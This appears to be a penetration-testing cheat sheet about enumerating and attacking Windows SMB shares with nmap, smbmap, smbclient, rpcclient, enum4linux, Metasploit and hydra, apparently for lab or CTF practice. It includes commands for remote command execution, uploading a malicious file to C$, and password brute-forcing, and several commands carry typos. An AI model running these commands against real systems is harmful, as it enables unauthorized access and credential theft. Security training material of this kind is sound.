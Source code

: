 ```yaml
---
description: SMB is a windows implementation of file share (server message block)
---
```


# i - SMB - 135,139,445

`nmap -T4 $ip/24 --open` - scan for open ports on a subnet.

`nmap -sV -O $ip` - run a service version and OS detection scan on a specific host.

`nmap $ip -sV -sC` - service version and default scripts for more info.

### Deleting and Creating a FileShare in windows (SMB)

`net use * /delete` - in PowerShell, we can delete a mapped drive share with the cmd.

`net use Z: \\$ip\path password /user:admin` - reconnecting/mapping a file share.

### Enumerating SMB with Nmap scripts

`nmap -p445 --script smb-protocols 192.168.0.141` - enumerating smb protocols.

`map -p445 --script smb-security-mode 192.168.0.141` - security mode scan.

`nmap -p445 --script smb-enum-sessions 192.168.0.141` - enumerating active sessions.

`nmap -p445 --script smb-enum-sessions --script-args smbusername=administrator,smbpassword=smbserver_771 $ip` - to view active sessions.

`nmap -p445 --script smb-enum-shares 192.168.0.141` - list all shares.

`nmap -p445 --script smb-enum-users 192.168.0.141` - list all users.

`nmap -p445 --script smb-server-stats --script-args smbusername=msfadmin,smbpassword=msfadmin 192.168.0.141` - server statistics.

`nmap -p445 --script smb-enum-domains --script-args smbusername=root,smbpassword=root 192.168.0.141` - enumerate domains.

`sudo nmap -p445 --script smb-enum-shares,smb-ls --script-args smbusername=root,smbpassword=root 192.168.0.141` - enumerating and listing  shares.

### \[smbmap] utility

`smbmap -u guest -p "" -d . -H 192.168.0.141` - enumerating for guest acct shares.

`smbmap -H 192.168.0.141 -x 'ifconfig' -u administrator -p smbserver_771 -x 'ipconfig'` - executing the "ipconfig" cmd  by the admin with the `-x` option.

`smbmap -H 192.168.0.141 -u Administrator -p 'smbserver_771' -L` - the `-L` lists all mapped drives.

`smbmap -H 192.168.0.141 -u Administrator -p 'smbserver_771' -r 'C$'` - the `-r` lists all the content of the C drive.

`smbmap -H 192.168.0.141 -u Administrator -p 'smbserver_771' -upload '/root/malware_file' 'C$\malware_file' - we can upload a malicious file by using the` --upload\` cmd and specify the path..

`smbmap -H 192.168.0.141 -u Administrator -p 'smbserver_771' -download'C$\flag.txt' - we can download a file from the SMB server by using the` --download\` cmd.



## Samba 1

`nmap $ip -p445 --script smb-os-discovery` - OS discovery script.

### \[msfconsole] Metasploit

`use auxiliary/sscanner/smb/smb_version` , then `show options` , `set RHOSTS` , `run` - run the payload.

### \[nmblookup] utility

`nmblookup -A 192.168.0.141` - a node status lookup for the ip. When we get a "<20>" it means we have a server we can connect to. To connect, we use "smbclient" utility.

### \[smbclient] utility

`smbclient //$ip/path  -N` - logging in with no password.

`smbclient -L 192.168.0.141 -N` - listing shares and check for a NULL session with the `-N` option.

`smbclient //$ip/jane -U jane` - loggingin as jane and viewing her share.

`smbclient -L $ip -U admin` - trying to list shares as the user admin.

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

when you see an "IPC"  with a NULL session, we might be able to connect to it.

### \[rpcclient] utility

`rpcclient -U "" -N 192.168.0.141` - and we successful login.

```bash
# cmds we can run in rpcclient active session.
srvinfo  # gives info about the victim system example: os version: 6.1.

# after login, you can enumerate users
enumdomusers    # enumerate users.
enumdomgroups   # enumerate groups.
lookupnames admin    # gives us full info/SID of the admin user.
```

### \[enum4linux] utility

`enum4linux -o $ip` - enumerate OS version.

`enum4linux -U $ip` - enumerate users also.

`enum4linux -S $ip` - enumerate shares.

`enum4linux -G $ip` - enumerate groups.

`enul4linux -i $ip` - enumerating printers.

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

### \[msfconsole] Metasploit

`use auxiliary/scanner/smb/smb2` , `set RHOSTS $ip` , `run` - checking for the SMB protocol versions.



## SMB Dictionary Attack

All the tricks listed above runs well using NULL sessions, but what if NULL sessions dosent work? what if we don't have login creditentials? Then we try dictionary bruteforcing attacks.

### Using Metasploit script to bruteforce

`use auxilliary/scanner/smb/smb_login` , `options` , `set RHOSTS $1p` ,  `set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt` , `set smbuser dking` - assuming we already enumerated users and "dking" is a user. `run` .

### Using \[hydra] for  bruteforce

`hydra -l admin -P /usr/share/wordlist/rockyou.txt $ip smb` - runs the attack.

`smbmap -H $ip -u admin -p` - try and login with the password you got.



## Getting other Services that Piped through SMB with Metasploit..

`use auxiliary/smb/pipe_auditor` , `set smbuser admin` , `set smbpass password1`, `set RHOSTS $ip` , `run` .

### Getting the SID's for different users.

`enum4linux -r -u "admin" -p "password1" $ip` - enumerating users using SID.





